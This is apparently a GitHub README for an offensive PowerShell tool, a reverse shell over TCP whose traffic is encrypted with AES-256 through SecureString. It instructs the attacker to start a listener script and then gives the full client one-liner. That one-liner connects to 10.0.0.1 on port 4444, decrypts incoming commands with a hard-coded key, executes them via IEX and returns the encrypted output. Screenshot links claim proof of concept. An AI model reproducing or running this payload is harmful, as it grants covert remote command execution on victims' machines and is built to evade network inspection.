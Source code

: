 
### Reverse Encrypted Shell over TCP (AES 256-bit) using PowerShell SecureString : ###

- Attacker (C2-Server Listener) :

PS> .\Server.ps1

- Target (Client) :

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit

### PoC : ###

- Reverse Encrypted Shell over TCP (AES 256-bit) PowerShell Execution (C2-Server Listener & Client) :

![alt text](/PoC1.jpg)

- Reverse Encrypted Shell over TCP (AES 256-bit) Encrypted Traffic (WireShark) :

![alt text](/PoC2.jpg)
